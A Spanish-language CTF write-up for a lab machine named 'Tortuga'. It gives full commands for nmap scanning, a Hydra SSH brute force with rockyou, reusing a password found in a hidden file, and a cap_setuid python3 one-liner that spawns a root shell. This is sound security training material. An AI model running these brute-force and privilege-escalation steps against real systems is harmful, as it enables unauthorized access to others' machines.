





# 🐢 Tortuga — Write-Up

**Dificultad:** Fácil  
**Categoría:** CTF / Linux  
**Objetivos:** Capturar `user.txt` y `root.txt`

---

## 📋 Índice

1. [Reconocimiento](#reconocimiento)
2. [Enumeración Web](#enumeración-web)
3. [Acceso inicial — Fuerza bruta SSH](#acceso-inicial--fuerza-bruta-ssh)
4. [Movimiento lateral](#movimiento-lateral)
5. [Escalada de privilegios](#escalada-de-privilegios)
6. [Flags](#flags)
7. [Conclusiones](#conclusiones)

---

## 🔍 Reconocimiento

Se lanza un primer escaneo básico para identificar los puertos abiertos, seguido de un escaneo completo con **Nmap** para obtener más información sobre los servicios:

```bash
nmap 10.0.10.3
nmap -A 10.0.10.3
```

> 📸 

El escaneo revela dos puertos abiertos:

| Puerto | Servicio | Detalle |
|--------|----------|---------|
| 22 | SSH | 2 ssh-hostkey detectadas |
| 80 | HTTP | Servidor web activo |

Se intenta conectar al SSH con el usuario `usuario` sin contraseña, pero el servidor la requiere. Se descarta esta vía y se pasa a investigar el puerto 80.

---

## 🌐 Enumeración Web

### CeWL — Generación de diccionario personalizado

Se utiliza **CeWL** para rastrear la web del objetivo y generar un diccionario personalizado con las palabras encontradas en ella. La idea es que las contraseñas suelen estar relacionadas con el contexto de la víctima, por lo que un diccionario extraído de su propia web tiene más probabilidades de éxito que uno genérico:

```bash
cewl -d 1 -m 5 -e http://10.0.10.3
```

Parámetros utilizados:

| Parámetro | Descripción |
|-----------|-------------|
| `-d 1` | Profundidad de rastreo — solo analiza la página indicada |
| `-m 5` | Longitud mínima de las palabras recogidas |
| `-e` | URL objetivo |

> 📸 

Del diccionario generado se extrae el nombre de usuario **`grumete`**.

---

## 🔑 Acceso inicial — Fuerza bruta SSH

### Preparación del diccionario rockyou

Con el usuario identificado, se necesita averiguar la contraseña. Como `grumete` no aparece en el diccionario generado por CeWL, se recurre al diccionario estándar **`rockyou.txt`**. Este diccionario se ha convertido en un estándar en pentesting por su amplia cobertura de contraseñas comunes.

Como viene comprimido, primero se extrae:

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

> 📸 

El parámetro `-d` indica a `gzip` que descomprima el archivo en el mismo directorio.

### Hydra — Ataque de fuerza bruta

Con el diccionario listo se lanza **Hydra** contra el servicio SSH:

```bash
hydra -l grumete -P /usr/share/wordlists/rockyou.txt -t 4 ssh://10.0.10.3
```

Parámetros utilizados:

| Parámetro | Descripción |
|-----------|-------------|
| `-l` | Usuario conocido (minúscula = valor concreto) |
| `-P` | Diccionario de contraseñas (mayúscula = lista de valores) |
| `-t` | Número de hilos — intentos en paralelo |

> 💡 En Hydra, usar la letra en **minúscula** indica que conoces el valor exacto, mientras que en **mayúscula** indica que usas una lista.

> 📸 

Hydra devuelve las credenciales: `login` (usuario) y `password` (contraseña). Se accede al sistema:

```bash
ssh grumete@10.0.10.3
```

```bash
whoami   # grumete
ls       # user.txt
cat user.txt
```

✅ **Flag de usuario capturada.**

---

## 🔄 Movimiento lateral

Se explora el sistema en busca de otros usuarios:

```bash
cd ..
ls        # se ve el directorio del usuario "capitan"
```

No se puede acceder directamente al directorio de `capitan` sin su contraseña. Se buscan archivos ocultos en el directorio de `grumete`:

```bash
ls -la
```

Se encuentra el archivo **`nota.txt`**, que contiene la contraseña de `capitan`. Se cambia de usuario:

```bash
su capitan
```

Sin embargo, `capitan` tampoco tiene los permisos necesarios para acceder a root, por lo que hay que buscar una vía de escalada.

---

## ⚡ Escalada de privilegios

### Intento fallido — Binarios SUID

El primer enfoque es buscar binarios con el bit SUID activado, que se ejecutan con permisos de su propietario (normalmente root) y pueden ser aprovechados para escalar:

```bash
find / -perm -4000 -type f 2>/dev/null
```

| Parámetro | Descripción |
|-----------|-------------|
| `-perm -4000` | Busca archivos con el bit SUID activado |
| `-type f` | Solo archivos (no directorios) |
| `2>/dev/null` | Oculta los errores de permisos |

Se consulta [GTFOBins](https://gtfobins.github.io/) para buscar vectores de escalada con los binarios encontrados, pero en esta máquina esta vía está deshabilitada. Documentar los intentos fallidos es parte del proceso real de pentesting — no todos los vectores funcionan en todas las máquinas.

### Capabilities — Vector de escalada exitoso

Se busca una alternativa mediante **capabilities**:

```bash
getcap -r / 2>/dev/null
```

| Parámetro | Descripción |
|-----------|-------------|
| `getcap` | Busca capabilities asignadas a binarios |
| `-r` | Búsqueda recursiva en todos los directorios |
| `2>/dev/null` | Oculta los errores de permisos |

> 📸 

Las **capabilities** son un mecanismo de Linux que permite otorgar a un binario capacidades específicas de root sin darle todos los privilegios. Por ejemplo, un binario con la capability `cap_setuid` puede cambiar su UID al de root. Si encontramos un binario con esta capability asignada, podemos abusar de él para ejecutar comandos como root sin necesidad de conocer la contraseña.

Se detecta que **`/usr/bin/python3.11`** tiene la capability `cap_setuid` asignada. Se explota de la siguiente forma:

```bash
/usr/bin/python3.11 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Se obtiene una shell como root:

```bash
cd /root
ls
cat root.txt
```

✅ **Flag de root capturada.**

---

## 🚩 Flags

| Flag | Estado |
|------|--------|
| `user.txt` | ✅ Capturada |
| `root.txt` | ✅ Capturada |

---

## 📚 Conclusiones

### Herramientas utilizadas

| Herramienta | Propósito |
|-------------|-----------|
| `nmap` | Escaneo de puertos y servicios |
| `cewl` | Generación de diccionario personalizado |
| `hydra` | Fuerza bruta de credenciales SSH |
| `find` | Búsqueda de binarios SUID (intento fallido) |
| `getcap` | Búsqueda de capabilities |
| `python3` | Explotación de capability cap_setuid |

### Lecciones aprendidas

- Generar un diccionario personalizado con CeWL puede revelar nombres de usuario que no están en diccionarios genéricos.
- En Hydra, minúscula = valor concreto, mayúscula = lista. Es fácil cometer errores aquí.
- Los archivos ocultos (`ls -la`) pueden contener credenciales de otros usuarios — siempre hay que revisarlos.
- Cuando los binarios SUID están capados, las capabilities son el siguiente vector a explorar.
- `getcap -r / 2>/dev/null` debe formar parte del checklist estándar de escalada de privilegios.

---

*Write-up realizado como parte del aprendizaje práctico en CTF.*
